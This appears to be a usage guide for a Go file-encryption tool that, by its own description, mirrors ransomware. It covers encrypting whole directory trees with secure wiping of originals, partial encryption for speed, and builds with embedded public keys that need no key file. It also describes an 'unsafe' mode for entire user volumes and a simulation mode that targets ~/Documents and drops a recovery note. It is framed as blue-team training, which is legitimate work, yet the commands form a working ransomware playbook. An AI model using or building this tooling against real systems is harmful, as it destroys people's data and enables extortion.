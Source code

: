 # Usage Guide

This guide complements the CLI `-help` output with practical workflows.

## Preparing the Environment

1. Install Go 1.21 or newer.
2. Clone the repository and download dependencies with `make deps`.
3. Optionally run `make demo-setup` to create disposable files under `./test`.

## Generating Keys

```bash
make build-genkey
./build/genkey -name backup-lab
```

The command writes two files alongside the binary:

- `private-backup-lab` – keep this secure; it is required for decryption.
- `public-backup-lab` – base64-encoded DER, useful for embedding in encryptor builds.

## Encrypting Files

```bash
./build/encrypt -dir ./testdata -key private-backup-lab -verbose
```

- All matching files within the directory tree receive a `.encrypted` suffix.
- Original files are securely wiped after the encrypted data is persisted.
- By default system directories and already encrypted files are skipped.
- Add `-dry-run` to inspect the candidate list without touching disk.

Use glob filters to narrow or widen scope:

```bash
./build/encrypt -dir ./testdata -include "**/*.txt" -exclude "**/logs/**" -dry-run
```

### Partial Encryption Mode

When CPU time is at a premium, enable `--partial-encryption` to scramble only selected regions of each file. The encryptor targets roughly 10–30% of the processed payload (depending on file size) across multiple segments, which mirrors how modern ransomware accelerates large campaigns.

```bash
./build/encrypt -dir ./archives --partial-encryption -verbose
```

The output still requires the private key to restore the missing segments, but large portions of the file remain visible. Use this mode only for performance experiments or training scenarios—it is intentionally weaker than full-file encryption.

## Embedding Public Keys

To distribute an encryptor that does not rely on an external key file, embed the public key at build time:

```bash
make build-encrypt-pub PUBKEY_B64="$(cat public-backup-lab)"
./build/encrypt -dir ./testdata -verbose
```

The resulting binary runs in hybrid mode, generating random per-file keys and wrapping them with the embedded RSA key. For safety, system exclusions are enforced automatically for these builds.

## Decrypting Files

```bash
./build/decrypt -dir ./testdata -key private-backup-lab -verbose
```

- The decryptor scans for `*.encrypted` files and restores the original filenames.
- Integrity is verified using the ChaCha20-Poly1305 tag before data is written back.
- Failed decryptions are reported with detailed error messages when `-verbose` is set.

## Working in Unsafe Mode

Passing `--unsafe` relaxes the directory guard rails so that large user data sets or entire volumes can be processed.

```bash
./build/encrypt -dir /home/alice --unsafe -benchmark
```

Even in unsafe mode the hard-coded system deny list applies. Confirm the target path and run a dry-run before executing destructive operations on real machines.

## Cleaning Up

Use `make demo-clean` to remove demo data, or `make clean` to delete build artifacts. The `go clean` step inside the latter removes cached build outputs from module caches.

## Running Ransomware Simulations

Blue-team exercises often require a realistic ransomware run that still guarantees recovery. The `--simulation` flag, together with a policy file, activates a special mode that drops the private key, decryptor, and a recovery note onto the user's desktop once encryption completes.

```bash
./build/encrypt -dir ~/Documents --policy policies/ransomware-sim.yaml --simulation -verbose
```

The default policy (`policies/ransomware-sim.yaml`) targets common user file types, enables unsafe traversal, and instructs the encryptor to stage artefacts on the desktop. For convenience, `make build-ransom-sim` embeds both the policy and a decryptor so you can hand defenders a single binary for training.

## Running Tests

While the project is primarily CLI-focused, core packages include unit tests. Run them as part of regular maintenance:

```bash
make test
```

Replace with `make check` to run formatting, vetting, linting (if `golangci-lint` is installed), and tests in one go.
